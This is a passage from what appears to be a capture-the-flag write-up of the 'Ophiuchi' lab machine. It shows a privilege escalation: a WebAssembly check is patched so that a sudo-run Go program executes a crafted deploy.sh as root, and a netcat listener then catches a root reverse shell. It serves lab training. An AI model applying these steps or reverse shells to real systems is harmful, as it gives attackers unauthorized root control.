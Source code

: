 - Downloaded the compiled `wabt` version to my working directory and extracted it

  ```bash
  wget https://github.com/WebAssembly/wabt/releases/download/1.0.23/wabt-1.0.23-ubuntu.tar.gz
  tar -xzvf wabt-1.0.23-ubuntu.tar.gz
  ```

- Using the recently downloaded tool, converted the `main.wasm` to `main.wat`, where we got the following content

  ```bash
  $ wabt-1.0.23/bin/wasm2wat main.wasm -o main.wat
  $ cat main.wat                                                                                           
  (module
    (type (;0;) (func (result i32)))
    (func $info (type 0) (result i32)
        i32.const 0)
    (table (;0;) 1 1 funcref)
    (memory (;0;) 16)
    (global (;0;) (mut i32) (i32.const 1048576))
    (global (;1;) i32 (i32.const 1048576))
    (global (;2;) i32 (i32.const 1048576))
    (export "memory" (memory 0))
    (export "info" (func $info))
    (export "__data_end" (global 1))
    (export "__heap_base" (global 2)))
  ```

- Once we need to return `f == 1`, which is a property of `info`, we needed to change the line `i32.const 0` to `i32.const 1` at line 4.

- After changing it, compiled the file again to `main.wasm` and transferred it to the victim machine as below

  ```bash
  wabt-1.0.23/bin/wat2wasm main.wat -o main.wasm
  scp main.wasm admin@10.10.10.227:/dev/shm/zurc
  ```
  
- In a second attempt, we had success on running the crafted deploy.sh as root :smiley:

  ```bash
  admin@ophiuchi:/dev/shm/zurc$ sudo /usr/bin/go run /opt/wasm-functions/index.go
  Ready to deploy
  uid=0(root) gid=0(root) groups=0(root)
  ```

- After that, modified the file to the previously shared reverse shell command line, obtained interactive access as root, and was able to get its flag.

  ```bash
  $ nc -lnvp 4443
  listening on [any] 4443 ...
  connect to [10.10.10.10] from (UNKNOWN) [10.10.10.227] 50068
  # hostname && id
  ophiuchi
  uid=0(root) gid=0(root) groups=0(root)
  # cat /root/root.txt
  <redacted>
  ```

I hope you have enjoyed it!

See you in the next post :smile:
